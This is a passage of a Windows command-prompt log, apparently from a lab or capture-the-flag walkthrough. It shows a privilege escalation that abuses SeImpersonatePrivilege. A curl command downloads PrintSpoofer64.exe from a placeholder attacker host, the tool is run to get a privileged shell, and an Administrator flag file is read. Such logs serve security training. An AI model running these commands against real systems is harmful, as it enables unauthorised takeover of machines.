SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Windows\system32>curl http://ATTACKER_IP/PrintSpoofer64.exe -o C:\temp\PrintSpoofer64.exe
curl http://ATTACKER_IP/PrintSpoofer64.exe -o C:\temp\PrintSpoofer64.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 27136  100 27136    0     0  91422      0 --:--:-- --:--:-- --:--:-- 91675

C:\Windows\system32>C:\temp\PrintSpoofer64.exe -i -c cmd.exe
C:\temp\PrintSpoofer64.exe -i -c cmd.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
3e614a3347a2a124cba49813ed52a4b6

C:\Windows\system32>whoami
whoami
nagoya-ind\nagoya$

C:\Windows\system32>
```
